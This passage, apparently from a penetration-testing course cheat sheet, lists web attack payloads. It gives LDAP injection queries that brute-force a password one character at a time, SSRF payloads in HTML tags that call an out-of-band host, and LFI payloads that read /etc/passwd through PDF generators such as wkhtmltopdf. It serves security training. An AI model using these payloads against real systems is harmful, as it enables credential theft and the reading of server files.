 Brute-Force data character-by-character:

| Username | Password | Query |
| --- | --- | --- |
| `htb-stdnt` | `*` | `(&(uid=htb-stdnt)(userPassword=*))` |
| `htb-stdnt` | `p*` | `(&(uid=htb-stdnt)(userPassword=p*))` |
| `htb-stdnt` | `p@*` | `(&(uid=htb-stdnt)(userPassword=p@*))` |
| `htb-stdnt` | `p@s*` | `(&(uid=htb-stdnt)(userPassword=p@s*))` |
| `htb-stdnt` | `p@ss*` | `(&(uid=htb-stdnt)(userPassword=p@ss*))` |
| `htb-stdnt` | `p@ssw*` | `(&(uid=htb-stdnt)(userPassword=p@ssw*))` |
| `htb-stdnt` | `p@ssw0*` | `(&(uid=htb-stdnt)(userPassword=p@ssw0*))` |
| `htb-stdnt` | `p@ssw0r*` | `(&(uid=htb-stdnt)(userPassword=p@ssw0r*))` |
| `htb-stdnt` | `p@ssw0rd*` | `(&(uid=htb-stdnt)(userPassword=p@ssw0rd*))` |
| `htb-stdnt` | `p@ssw0rd` | `(&(uid=htb-stdnt)(userPassword=p@ssw0rd))` |

## PDF Generation Vulnerabilities

#### Determining the PDF Generation Library

Code: bash

```bash
$ exiftool invoice.pdf 
<SNIP>
Creator                         : wkhtmltopdf 0.12.6.1
Producer                        : Qt 4.8.7
<SNIP>
```

#### Server-Side Request Forgery (SSRF) Payloads

Code: html

```html
<img src="http://cf8kzfn2vtc0000n9fbgg8wj9zhyyyyyb.oast.fun/ssrftest1"/>
<link rel="stylesheet" href="http://cf8kzfn2vtc0000n9fbgg8wj9zhyyyyyb.oast.fun/ssrftest2">
<iframe src="http://cf8kzfn2vtc0000n9fbgg8wj9zhyyyyyb.oast.fun/ssrftest3"></iframe>
```

#### Local File Inclusion (LFI) Payloads

Code: html

```html
<script>
	x = new XMLHttpRequest();
	x.onload = function(){
		document.write(this.responseText)
	};
	x.open("GET", "file:///etc/passwd");
	x.send();
</script>

<iframe src="file:///etc/passwd" width="800" height="500"></iframe>
<object data="file:///etc/passwd" width="800" height="500">
<portal src="file:///etc/passwd" width="800" height="500">

<annotation file="/etc/passwd" content="/etc/passwd" icon="Graph" title="LFI" />
```